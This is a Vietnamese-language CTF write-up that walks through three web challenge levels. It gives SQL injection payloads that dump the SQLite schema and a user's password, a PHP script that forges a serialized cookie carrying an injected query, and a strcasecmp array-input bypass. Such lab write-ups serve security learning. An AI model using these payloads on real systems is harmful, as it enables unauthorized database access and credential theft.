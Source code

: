 

{% raw %}
# level01

![image](https://user-images.githubusercontent.com/75429369/179963339-bc0671f2-f043-4b12-a74a-3fd5ca44348c.png)

Sqlite3 có query hoàn toàn có thể thực hiện sqli, fuzz số cột thì biết được có 2 cột

```
1 and 1=0 union select sql,sql from sqlite_master -- '
```

![image](https://user-images.githubusercontent.com/75429369/179965358-c36348da-ac37-4f0d-891b-e9f4bb468304.png)

Có password kìa select nó ra với id 1 nào

```
1 and 1=0 union select password,password from users where id = 1 --'
```

![image](https://user-images.githubusercontent.com/75429369/179965685-6e109132-1c56-4b00-9b44-291905d404c7.png)

# level04

Bài cho 2 source code, source thứ nhất có chỗ đáng lưu ý sau

![image](https://user-images.githubusercontent.com/75429369/179966473-82c383f6-4bd9-4dcd-89bf-26e1fca980f9.png)

Kiểm tra có cookie và sẽ unserialize cái cookie đấy. Source thứ hai:

![image](https://user-images.githubusercontent.com/75429369/179966371-845ea550-b87f-4913-8972-ad29b77a98eb.png)

Có function `SQL_query` trỏ vào `$query` có liên kết với source thứ nhất. Với id = 1 thì ta được flag nên giờ chỉ cần select được tới nó là xong, đơn giản chỉ cần modify cái cookie thành serialize của class SQL mà trong đó sẽ có query sqli inject thêm từ query có sẵn trong source (nhớ base64 nữa).

```php
<?php 
class SQL {
  public $query = "SELECT username from users where id=1 UNION SELECT password from users where id=1";
}

$a = new SQL();
echo base64_encode(serialize($a));
?>
```

![image](https://user-images.githubusercontent.com/75429369/179969680-394dcc22-5173-4012-a1b5-cb43b030e870.png)

![image](https://user-images.githubusercontent.com/75429369/179969719-d132c13e-9a11-4ae4-9857-f609ef502872.png)

# level17

Bài này bắt ta nhập biến `flag` sau đó so sánh bằng hàm `strcasecmp` với $flag có sẵn, nếu ra sai thì sẽ cho flag. Có thể tham khảo hàm `strcasecmp` tại [đây](https://www.php.net/manual/en/function.strcasecmp.php)

![image](https://user-images.githubusercontent.com/75429369/179970219-15775230-4cbe-489e-a834-6f7d667d9ee1.png)

Trick để bypass bài này là thay vì nhập $flag là một string thì ta sẽ nhập dưới dạng một array, lúc này kết quả so sánh sẽ trả về `NULL` (tự debug nha)

![image](https://user-images.githubusercontent.com/75429369/179972273-94a3252b-73b0-4ebb-a7d7-a8e305fa332f.png)